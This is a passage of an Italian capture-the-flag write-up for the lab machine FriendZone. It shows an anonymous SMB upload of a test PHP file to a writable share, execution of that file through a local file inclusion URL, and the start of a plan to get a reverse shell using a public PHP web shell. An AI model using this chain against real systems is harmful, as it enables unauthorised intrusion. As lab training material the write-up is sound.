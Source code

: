 **Nulla da fare!**

Tornando alla fase di enumerazione mi rendo conto di avere permessi in lettura e scrittura sulla cartella _Development_. Quindi provo ad aggiungere un file _test.php_ all'interno della cartella.

Il file _test.php_ contiene il seguente testo:

```text
<?php
echo "SI PUO' FARE!";
?>
```

Accedo alla cartella _Development_:

```text
smbclient //10.10.10.123/Development -N
```

Carico il file:

```text
put test.php
```

Visito la pagina https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/test:

<p align="center">
  <img src="/Immagini/Linux-Box/FriendZone/friendzone-13.png" />
</p>

Quindi posso sfruttare questo meccanismo per caricare qualcosa di malevolo che mi permetta di dare vita a una reverse shell.


## Exploitation

Scarico il file php malevolo da qui https://pentestmonkey.net/tools/web-shells/php-reverse-shell.
